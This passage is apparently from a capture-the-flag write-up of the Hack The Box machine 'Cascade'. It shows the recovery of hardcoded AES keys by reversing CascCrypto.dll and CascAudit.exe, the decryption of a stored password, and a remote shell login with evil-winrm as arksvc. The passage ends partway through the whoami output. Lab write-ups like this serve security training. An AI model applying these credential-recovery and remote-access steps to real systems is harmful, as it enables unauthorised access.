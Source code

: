 We transfer all theese files to our machine. Using the `download` command.

We open the `Audit.db` file in an sql database reader and we can see decoding it doesnt work.

![sqlpwdread](https://i.ibb.co/kVn4Yrf/sql-pwd-read.png)

```bash
➜  cascade echo "BQO5l5Kj9MdErXx6Q6AGOw==" | base64 -d
������D�|zC�;
```

We assume that it is encoded using some kind of other encryption.

I use visual studio to reverse CascCrypto.dll and in the folder `CascCrypto->CascCrypto.dll->CascCrypto->Crypto` we find an encryption key.

```text
Encoding.UTF8.GetBytes("1tdyjCbY1Ix49842");
```

So the key is `1tdyjCbY1Ix49842`

We now do the same thing with `CascAudit.exe` and in `CascAudit->CascAudit.exe->CascAudiot->MainModule` we find another key.

```bash
password = Crypto.DecryptString(encryptedString, "c4scadek3y654321"); }
```

We attempt to use aes decryption to decode the ciphertext.

![aes](https://i.ibb.co/C6Ln5z9/aes.png)

And now we have the password: `w3lc0meFr31nd`

We login with `evil-winrm` as the user arksvc.

```bash
➜  cascade evil-winrm -i cascade.htb -u arksvc -p w3lc0meFr31nd

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\arksvc\Documents>
```

We run `whoami /all` to check what privelages we have and we get some interesting results:

```bash
*Evil-WinRM* PS C:\Users\arksvc\Documents> whoami /all

USER INFORMATION
----------------

User Name      SID
============== ==============================================
cascade\arksvc S-1-5-21-3332504370-1206983947-1165150453-1106


GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                            Attributes
=========================================== ================ ============================================== ===============================================================
Everyone                                    Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
```